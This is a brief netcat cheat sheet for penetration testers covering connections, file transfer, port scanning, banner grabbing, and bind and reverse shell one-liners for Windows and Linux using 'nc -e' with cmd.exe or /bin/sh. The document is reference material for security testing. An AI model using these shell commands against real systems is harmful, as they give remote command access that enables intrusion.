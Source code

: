```yaml
---
title: "Netcat Cheat Sheet"
category: Useful cheat sheet for netcat..pentester swiss knife!
---
```


# Connect to a TCP Port

```ruby
nc -nv <IP Address> <Port>
```
# Listen on a TCP Port

```perl
nc -lvp <port>
```
# Connect and receive a HTTP Page

```ruby
nc -nv <IP Address> 80
HEAD / HTTP/1.1

```
# Transferring a File
```perl
nc -lvp 4444 >output.txt          # Receiving End
nc -nv <IP Address> < input.txt   # Sending End
```
# Set up a Netcat Bind Shell (Windows)
```ruby
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444          # Connect to the shell
```
# Set up a Netcat Bind Shell (Linux)
```perl
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444          # Connect to the shell
```
# Set up a Netcat Reverse Shell (Windows)
```ruby
nc -lvp 443                       # Attacker listening for connection
nc -nv <IP Address> 443 -e cmd.exe
``` 
# Set up a Netcat Reverse Shell (Linux)
```perl
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

# Netcat as a Port Scanner
```ruby
nc -z <IP Address> <Port Range in abc - xyz format>
```
# Netcat as a Banner Grabber
```perl
echo "" | nc -nv -w1 <IP Address> <Ports>
```

